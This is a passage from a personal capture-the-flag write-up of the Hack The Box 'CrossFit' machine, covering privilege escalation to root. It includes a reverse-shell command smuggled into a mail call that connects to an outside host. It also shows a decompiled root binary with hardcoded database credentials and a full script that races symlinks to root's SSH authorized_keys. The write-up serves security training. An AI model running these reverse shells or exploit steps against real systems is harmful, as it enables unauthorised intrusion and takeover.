isaac     2925  0.0  0.1   7900  4604 ?        S    16:55   0:00 bash -i
isaac     3303  0.0  0.0   2388   696 ?        Ss   17:27   0:00 /bin/sh -c /usr/bin/php /home/isaac/send_updates/send_updates.php
isaac     3304  0.3  0.5  89096 22520 ?        S    17:27   0:02 /usr/bin/php /home/isaac/send_updates/send_updates.php
isaac     3306  0.0  0.0   2388   748 ?        S    17:27   0:00 sh -c /usr/bin/mail -s 'CrossFit Club Newsletter' ;bash -c 'bash -i >& /dev/tcp/10.10.14.176/10001 0>&1' '1'
isaac     3308  0.0  0.0   6644  3236 ?        S    17:27   0:00 bash -c bash -i >& /dev/tcp/10.10.14.176/10001 0>&1 1
isaac     3309  0.0  0.1   7764  4336 ?        S    17:27   0:00 bash -i
isaac     3557  0.0  0.0  10632  3144 ?        R    17:42   0:00 ps aux
```

In the process output I could see my reverse shells \(I tried two different methods\)

```text
2021/01/15 18:51:01 FS:                 OPEN | /usr/bin/dbmsg
2021/01/15 18:51:01 FS:               ACCESS | /usr/bin/dbmsg
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/ld-2.28.so
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/ld-2.28.so
2021/01/15 18:51:01 FS:                 OPEN | /etc/ld.so.cache
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libmariadb.so.3
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libmariadb.so.3
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libzip.so.4.0
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libzip.so.4.0
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libc-2.28.so
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libc-2.28.so
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libpthread-2.28.so
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libpthread-2.28.so
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libz.so.1.2.11
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libz.so.1.2.11
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libdl-2.28.so
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libdl-2.28.so
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libm-2.28.so
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libm-2.28.so
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libgnutls.so.30.23.2
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libgnutls.so.30.23.2
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libbz2.so.1.0.4
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libbz2.so.1.0.4
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libssl.so.1.1
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libssl.so.1.1
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libp11-kit.so.0.3.0
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libp11-kit.so.0.3.0
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libidn2.so.0.3.6
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libidn2.so.0.3.6
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libunistring.so.2.1.0
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libunistring.so.2.1.0
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libtasn1.so.6.5.5
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libtasn1.so.6.5.5
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libnettle.so.6.5
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libnettle.so.6.5
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libhogweed.so.4.5
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libhogweed.so.4.5
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libgmp.so.10.3.2
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libgmp.so.10.3.2
2021/01/15 18:51:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/libffi.so.6.0.4
2021/01/15 18:51:01 FS:               ACCESS | /usr/lib/x86_64-linux-gnu/libffi.so.6.0.4
```

Using pspy \(with the -f flag to see files as they are accessed\) I noticed a program dbmsg that I didnt know

```text
isaac@crossfit:~$ man dbmsg
man dbmsg
No manual entry for dbmsg
```

After looking around on the internet for awhile and not finding anything I figured it must be a home-brewed application

```text
isaac@crossfit:~$ strings /bin/dbmsg
...snipped...
crossfit
oeLoo~y2baeni
localhost
SELECT * FROM messages
/var/backups/mariadb/comments.zip
%d%s
Adding file %s
This program must be run as root.
...snipped...
```

I quick peek into the strings inside the file proved this to be true

```c
void main(void)

{
  __uid_t _Var1;
  time_t tVar2;

  _Var1 = geteuid();
  if (_Var1 != 0) {
    fwrite("This program must be run as root.\n",1,0x22,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  process_data();
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

I opened the program in ghidra and found the main\(\) function. It ran as root, so this looked to be a possible bet for excalation of privileges. It looked like it checked the current system time, created a random number, then ran the process\_data\(\) function. I decided to check there next

```c
void process_data(void)

{
  int iVar1;
  uint uVar2;
  long lVar3;
  undefined8 uVar4;
  size_t sVar5;
  undefined local_f8 [48];
  char local_c8 [48];
  char local_98 [48];
  undefined local_68 [28];
  undefined4 local_4c;
  long local_48;
  FILE *local_40;
  long *local_38;
  long local_30;
  long local_28;
  long local_20;

  local_20 = mysql_init(0);
  if (local_20 == 0) {
    fwrite("mysql_init() failed\n",1,0x14,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  lVar3 = mysql_real_connect(local_20,"localhost","crossfit","oeLoo~y2baeni","crossfit",0,0,0);
  if (lVar3 == 0) {
    exit_with_error(local_20);
  }
  iVar1 = mysql_query(local_20,"SELECT * FROM messages");
  if (iVar1 != 0) {
    exit_with_error(local_20);
  }
  local_28 = mysql_store_result(local_20);
  if (local_28 == 0) {
    exit_with_error(local_20);
  }
  local_30 = zip_open("/var/backups/mariadb/comments.zip",1,&local_4c);
  if (local_30 != 0) {
    while (local_38 = (long *)mysql_fetch_row(local_28), local_38 != (long *)0x0) {
      if ((((*local_38 != 0) && (local_38[1] != 0)) && (local_38[2] != 0)) && (local_38[3] != 0)) {
        lVar3 = *local_38;
        uVar2 = rand();
        snprintf(local_c8,0x30,"%d%s",(ulong)uVar2,lVar3);
        sVar5 = strlen(local_c8);
        md5sum(local_c8,sVar5 & 0xffffffff,local_f8,sVar5 & 0xffffffff);
        snprintf(local_98,0x30,"%s%s","/var/local/",local_f8);
        local_40 = fopen(local_98,"w");
        if (local_40 != (FILE *)0x0) {
          fputs((char *)local_38[1],local_40);
          fputc(0x20,local_40);
          fputs((char *)local_38[3],local_40);
          fputc(0x20,local_40);
          fputs((char *)local_38[2],local_40);
          fclose(local_40);
          if (local_30 != 0) {
            printf("Adding file %s\n",local_98);
            local_48 = zip_source_file(local_30,local_98,0);
            if (local_48 == 0) {
              uVar4 = zip_strerror(local_30);
              fprintf(stderr,"%s\n",uVar4);
            }
            else {
              lVar3 = zip_file_add(local_30,local_f8,local_48);
              if (lVar3 < 0) {
                zip_source_free(local_48);
                uVar4 = zip_strerror(local_30);
                fprintf(stderr,"%s\n",uVar4);
              }
              else {
                uVar4 = zip_strerror(local_30);
                fprintf(stderr,"%s\n",uVar4);
              }
            }
          }
        }
      }
    }
    mysql_free_result(local_28);
    delete_rows(local_20);
    mysql_close(local_20);
    if (local_30 != 0) {
      zip_close(local_30);
    }
    delete_files();
    return;
  }
  zip_error_init_with_code(local_68,local_4c,local_4c);
  uVar4 = zip_error_strerror(local_68);
  fprintf(stderr,"%s\n",uVar4);
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

The `process_data()` function opens a connection to the mysql database and logs in, pulls all of the data from the `messages` table, then stores the result in a variable. It then opens the file `/var/backups/mariadb/comments.zip`.

```text
isaac@crossfit:/dev/shm$ cd /var/backups/mariadb
cd /var/backups/mariadb
bash: cd: /var/backups/mariadb: Permission denied
```

I was unable to access the directory that file was stored in.

After opening the `messages` table and the zip file, it appears that the program takes each entry in the messages table and creates a file, then adds each file to the zip.

```c
void md5sum(void *param_1,int param_2,long param_3)

{
  uint local_6c;
  uchar local_68 [72];
  EVP_MD *local_20;
  EVP_MD_CTX *local_18;
  uint local_c;

  local_18 = (EVP_MD_CTX *)EVP_MD_CTX_new();
  local_20 = EVP_md5();
  EVP_DigestInit_ex(local_18,local_20,(ENGINE *)0x0);
  EVP_DigestUpdate(local_18,param_1,(long)param_2);
  EVP_DigestFinal_ex(local_18,local_68,&local_6c);
  EVP_MD_CTX_free(local_18);
  local_c = 0;
  while (local_c < local_6c) {
    snprintf((char *)((ulong)(local_c * 2) + param_3),0x20,"%02x");
    local_c = local_c + 1;
  }
  return;
}
```

the md5sum function

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(void)
{
    srand(time(0));
    printf("%d", rand());

    return 0;
}
```

wrote a short function in c that emulated what the program was doing: using the current time, generate a psuedo-random number, then create a file with that name

```text
gcc rand.c -o /dev/shm/rand
```

I compiled the small program, then created a script to run it, linking the file to root's authorized\_users \(which hopefully I could get to write to a location I could access!\)

```bash
#!/bin/bash
#testsploit.sh
echo '#include <stdio.h>' >> rand.c
echo '#include <stdlib.h>' >> rand.c
echo '#include <time.h>' >> rand.c
echo '' >> rand.c
echo 'int main(void)' >> rand.c
echo '{' >> rand.c
echo '    char tmp[50];' >> rand.c
echo '    srand(time(0));' >> rand.c
#echo '    snprintf(tmp, 50, "%d%s", rand(), "1");' >> rand.c
echo '    printf("%d", rand());' >> rand.c
echo '    return 0;' >> rand.c
echo '}' >> rand.c
gcc rand.c -o rand
chmod +x ./rand
mysql -h localhost -u crossfit -poeLoo~y2baeni -Dcrossfit -e'insert into messages (id, name, email, message) values (1, "ssh-ed25519", "zweilos@kali", "AAAAC3NzaC1lZDI1NTE5AAAAIEJBS4TOdiQGcHfw8ifVbRk+tgzUlRPyEn9ogY0JogFO");'
touch /var/local/testing
while true; do ln -s /root/.ssh/authorized_keys /var/local/$(echo -n $(./rand)1 | md5sum | cut -d " " -f 1) 2>/dev/null; done
```

test script to see if I can write to random location and see if my output appears. update: test worked...this is final script, automating process because its a pain, and deletes every thing so fast...

```text
hank@crossfit:/var/local$ ls -la
total 36
drwxrwsr-x  2 root  staff  4096 Mar 19 17:06 .
drwxr-xr-x 13 root  root   4096 May 11  2020 ..
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 0184fcf5cab878c6d7a4a238d9335fc9 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 01c341c0f1905d4cf880c9d317ea198a -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 0e5a4f402a1d4e11e29fb881ddf551ac -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 1334ee445d94d2057adfd456f0f30e9f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 2e7e418d626a8cf774ca86427247d470 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 2f3d859545eac23b239cd02f2b382732 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 32690d4ba5a11ce8d2acaea1fe9863ed -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 34b7cf174af7a7a7c7bd6640d2bf796f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 37d02441bcf8b1a03096e5d85613343f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 3aec496cb87b5275d783a6fbde97eda9 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 3db43ad6c85de451942239f6334e035f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 46e01464d466f3be2e2baacd7ce04b06 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 4fa94e4efd4b5a8586492664b4114f81 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 64872b594307597a0fb74a43518dbaf4 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 65f05f00ce94f2f38010995a2d6b5df8 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 6a885b24e1564d4aae3f8d057f85d1ac -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 6eb8a3b05d977417c959e357c018a0ee -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 76cb9159c5a2e23a03106c6c92d8899f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 8afd3af05deff201efa18de9e88b5efd -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 957a7ab403c547a922f835f22dec3901 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 98d65c2d6817aebb40c08e07527a3999 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 a187a36ebd377ff2404e37992581e003 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 abf37f52f83200875e4f7817627a5ce2 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 b14feb3d616020463845b32b1a1c1d80 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 b2e435eb990bf835103ef3213c3a90a2 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 b4729e44d2099e46e11b776be529bc8f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 c3fbaec6e5638c255648b740cb1d6ecf -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 caf3679893140588b1797d9936e175b0 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 d41d8cd98f00b204e9800998ecf8427e -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 d4d2474363b7c42b66766d33b1e69b2f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 d4fe8354ba56eb84a9d73c444bbcb73b -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 d663b4289b4f4592428ac65d99eed4a5 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 dd1d1bbe442022290aa2689feec005ff -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 ddaf5badb189da9347b7afd71b8e9abd -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 e2fa52581e93721dd19fec36c1df1d3f -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 f1881aca5b246a1d4ecf260d27346ef7 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 f286b210609b0685837f8e227f27b982 -> /var/local/testing
lrwxrwxrwx  1 isaac staff    18 Mar 19 17:06 f994e5b9d588327131864b08f8d15bb9 -> /var/local/testing
-rwxr-xr-x  1 isaac staff 16792 Mar 19 17:06 rand
-rw-r--r--  1 isaac staff   197 Mar 19 17:06 rand.c
-rwxr-xr-x  1 isaac staff   969 Mar 19 17:06 test
-rw-r--r--  1 isaac staff     0 Mar 19 17:06 testing
hank@crossfit:/var/local$ cat *
cat: d41d8cd98f00b204e9800998ecf8427e: No such file or directory
```

my random files that were generated, and then suddenly and swiftly removed by the cleaning crew. I tried to do a test run, but the files were deleted so fast that I couldn't get the testing file to stick around. I thought about trying to get the output to redirect to /dev/tcp to show up at a nc listener on my machine, but I was confident that I had made it work and pushed on with trying to get `root` access.

```text
isaac@crossfit:~$ vi rand.c
isaac@crossfit:~$ gcc rand.c -o /dev/shm/rand
isaac@crossfit:~$ ls
rand.c  send_updates
isaac@crossfit:~$ rm rand.c
isaac@crossfit:~$ cd /dev/shm
isaac@crossfit:/dev/shm$ ls
rand
isaac@crossfit:/dev/shm$ chmod +x rand
```

I compiled my random file generator then made it executable \(removing the evidence of its creation\). AFter running it, \(note: this is from before I automated all of this with my script from above!\)

```text
isaac@crossfit:/var/local$ ls -la
total 8
drwxrwsr-x  2 root  staff 4096 Mar 19 16:15 .
drwxr-xr-x 13 root  root  4096 May 11  2020 ..
lrwxrwxrwx  1 isaac staff   26 Mar 19 16:15 c4ca4238a0b923820dcc509a6f75849b -> /root/.ssh/authorized_keys
```

I ran my script, and saw the file linked to `root`'s `authorized_keys` file in the proper folder, however I was not able to SSH into the machine

```text
isaac@crossfit:/var/local$ /dev/shm/test.sh
ERROR 1364 (HY000) at line 1: Field 'name' doesn't have a default value
```

I scolled up to check the error messages output from my script, and finally saw the error that had been causing me so much trouble...My original script was only inserting my public key into the `messages` field. The database was not set up to function with `NULL` values in the other fields so it was not working. It required values in the other fields.

```text
/dev/shm/test.sh: line 2: ./rand: No such file or directory
```

The second error message above was caused

```sql
MariaDB [crossfit]> DESCRIBE messages;
+---------+---------------------+------+-----+---------+----------------+
| Field   | Type                | Null | Key | Default | Extra          |
+---------+---------------------+------+-----+---------+----------------+
| id      | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| name    | varchar(50)         | NO   |     | NULL    |                |
| email   | varchar(320)        | NO   |     | NULL    |                |
| message | varchar(2048)       | NO   |     | NULL    |                |
+---------+---------------------+------+-----+---------+----------------+
4 rows in set (0.001 sec)
```

After going back to my shell as `hank` and checking `mysql` I realized my problem. I was getting an error while inserting my key into the database, but since there was a huge spam of output from my script I didn't see it. I used the `DESCRIBE` command to see the columns in the message table so I could tailor my input better.

```sql
MariaDB [crossfit]> insert into messages (id, name, email, message) values (1, "ecdsa-sha2-nistp256", "zweilos", "AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOFDxKT5MSIXS3CMnjSZkAqDM+3+yMnUeK9XvRqNy0GQOpBkPhDiCYZekrPVKVM2jSsHfrMfc4P+bakquSG9g5c=C3NzaC1lZDI1NTE5AAAAIBpM8dQcTJXzXOsciQU22F4qpf1jv/SscvQAu+kz7np1");
Query OK, 1 row affected (0.001 sec)

MariaDB [crossfit]> select * from messages
    -> ;
+----+---------------------+---------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                | email   | message                                                                                                                                                                                                      |
+----+---------------------+---------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
|  1 | ecdsa-sha2-nistp256 | zweilos | AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOFDxKT5MSIXS3CMnjSZkAqDM+3+yMnUeK9XvRqNy0GQOpBkPhDiCYZekrPVKVM2jSsHfrMfc4P+bakquSG9g5c=C3NzaC1lZDI1NTE5AAAAIBpM8dQcTJXzXOsciQU22F4qpf1jv/SscvQAu+kz7np1 |
+----+---------------------+---------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)
```

```text
hank@crossfit:/var/local$ ls -la
total 36
drwxrwsr-x  2 root  staff  4096 Mar 19 17:22 .
drwxr-xr-x 13 root  root   4096 May 11  2020 ..
lrwxrwxrwx  1 isaac staff    26 Mar 19 17:22 c4ca4238a0b923820dcc509a6f75849b -> /root/.ssh/authorized_keys                                                                                                   
-rwxr-xr-x  1 isaac staff 16704 Mar 19 17:22 rand
-rw-r--r--  1 isaac staff   153 Mar 19 17:22 rand.c
-rwxr-xr-x  1 isaac staff   987 Mar 19 17:22 t
-rw-r--r--  1 isaac staff     0 Mar 19 17:22 testing
```

The random file

#### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ ssh root@10.10.10.208 -i root.key                                                            130 ⨯
Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 21 04:46:55 2020
root@crossfit:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
crossfit
root@crossfit:~# ls -la
total 60
drwx------  9 root root 4096 Feb 16 05:14 .
drwxr-xr-x 18 root root 4096 Sep  2  2020 ..
lrwxrwxrwx  1 root root    9 May 12  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  5 root root 4096 Apr 28  2020 .cache
-rwxr-x---  1 root root  179 May 13  2020 cleanup.sh
drwxr-xr-x  3 root root 4096 May  1  2020 .composer
drwx------  3 root root 4096 May  2  2020 .config
-rwx------  1 root root  136 May 12  2020 delete_ftp_users.sh
drwx------  3 root root 4096 Apr 28  2020 .gnupg
lrwxrwxrwx  1 root root    9 May 12  2020 .lesshst -> /dev/null
drwxr-xr-x  3 root root 4096 May 26  2020 .local
drwx------  5 root root 4096 Apr 28  2020 .mozilla
lrwxrwxrwx  1 root root    9 May  4  2020 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Mar 19 13:50 root.txt
-rw-r--r--  1 root root   74 May  5  2020 .selected_editor
drwx------  2 root root 4096 Sep  2  2020 .ssh
root@crossfit:~# cat root.txt 
ee0a62a5b513a67db05897a2ec478c80
```

Finally! I had to keep trying to log in through SSH, as it wasn't until my files got deleted that I was successful. I was able to tell that my files got deleted because I began getting spammed with an error message

```bash
...snipped...
./t: line 19: ./rand: No such file or directory
./t: line 19: ./rand: No such file or directory
./t: line 19: ./rand: No such file or directory
./t: line 19: ./rand: No such file or directory
./t: line 19: ./rand: No such file or directory
```

AS you can see...I got tired of even typing out `test.sh` and simply called my script `t`. I almost was about to write another script that would send my files over, chmod +x them, and run the exploit script, but just before I did that the exploit finally worked!

These notes got jumbled up...make sure to clean and reorganize them!

Thanks to [`polarbearer`](https://app.hackthebox.eu/users/159204) & [`GibParadox`](https://app.hackthebox.eu/users/125033) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

